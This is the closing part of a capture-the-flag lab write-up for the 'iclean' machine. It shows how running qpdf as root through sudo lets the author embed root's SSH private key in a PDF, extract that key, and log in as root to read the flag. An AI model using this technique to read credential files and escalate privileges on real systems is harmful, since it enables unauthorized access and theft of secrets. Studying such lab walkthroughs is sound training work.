The user consuela can `run the binary qpdf` as any user on the system, including the superuser `root`. To do it we need the password of consuela, but we have it :D.

So proceed to `list the use of this binary` to try to take advantage of the privilege:

<br />

```bash
consuela@iclean:~$ qpdf --help=usage
Read a PDF file, apply transformations or modifications, and write
a new PDF file.

Usage: qpdf [infile] [options] [outfile]
   OR  qpdf --help[={topic|--option}]

- infile, options, and outfile may be in any order as long as infile
  precedes outfile.
- Use --empty in place of an input file for a zero-page, empty input
- Use --replace-input in place of an output file to overwrite the
  input file with the output
- outfile may be - to write to stdout; reading from stdin is not supported
- @filename is an argument file; each line is treated as a separate
  command-line argument
- @- may be used to read arguments from stdin
- Later options may override earlier options if contradictory

Related options:
  --empty: use empty file as input
  --job-json-file: job JSON file
  --replace-input: overwrite input with output

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```

<br />

## File Read:

<br />

The version of qpdf in use does not have any vulnerabilities, but the fact that we can run it as root is dangerous, since by executing the following command we can `access any file on the machine`:

<br />

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --empty --add-attachment /root/.ssh/id_rsa -- id_rsa
consuela@iclean:~$ ls -l id_rsa 
-rw-r--r-- 1 root root 1173 Dec 30 19:01 id_rsa
consuela@iclean:~$ cat id_rsa 
%PDF-1.3
%����
1 0 obj
<< /Names << /EmbeddedFiles 2 0 R >> /PageMode /UseAttachments /Pages 3 0 R /Type /Catalog >>
endobj
2 0 obj
<< /Names [ (id_rsa) 4 0 R ] >>
endobj
3 0 obj
<< /Count 0 /Kids [ ] /Type /Pages >>
endobj
4 0 obj
<< /EF << /F 5 0 R /UF 5 0 R >> /F (id_rsa) /Type /Filespec /UF (id_rsa) >>
endobj
5 0 obj
<< /Params << /CheckSum <bb34da3f74ca5fb11f4ccbc393e113bc> /CreationDate (D:20241230190129Z) /ModDate (D:20241230190129Z) /Size 505 >> /Type /EmbeddedFile /Length 377 /Filter /FlateDecode >>
stream
x�uQ�r�@���)˰ĄC38�� 8�@DY\��O�*�҇W�կ^u��N⑿�aቷF�Rs�&4Y!6�S!U`��xHt�oOm���.�6#Ei��c��#y1\2�
                                                                                        �
Ґ�w���N!�o��׍���}7�G���(t��M�L���b��J1?��c��9G�%9h��<�@q�m�%�Z��X����
                                                                     2�ު}+yq2��[yl⣳�
!���"-t+i%ءF�K���@H���@��A�D�6�3wuim{��z��.-?g�[>��J��%��롇��w(�=�>
��-endstream                                                       ����N��H�,�-���告[���L��]�u�g&?K�PA��Kx����R�
endobj
xref
0 6
0000000000 65535 f 
0000000015 00000 n 
0000000124 00000 n 
0000000171 00000 n 
0000000224 00000 n 
0000000315 00000 n 
trailer << /Root 1 0 R /Size 6 /ID [<7596d96e9b572498c7455bc46cde003a><7596d96e9b572498c7455bc46cde003a>] >>
startxref
915
%%EOF
```
<br />

That's great! The command has been successfully executed, so we're going to take the file to local so that we can open it with `"open"` and access the `embedded root id_rsa`:

<br />

The document does not contain any pages:

<br />



<br />

But if we `expand the sidebar` and access the attachments we can see the `id_rsa of the root user`:

<br />



<br />

Try to `connect` to the machine with the `id_rsa` we just got and that's it! Machine ready!!

<br />

```bash
❯ ssh -i id_rsa root@10.10.11.12
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Mon Dec 30 07:18:36 PM UTC 2024


Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Dec 30 19:18:36 2024 from 10.10.14.13
root@iclean:~# id
uid=0(root) gid=0(root) groups=0(root)
root@iclean:~# cat /root/root.txt
5ae03cc0384769387cfe1a319exxxxxx
root@iclean:~# 
```

<br />

I hope you enjoyed the machine and above all understood the concepts! Keep hacking!!❤️

<br />
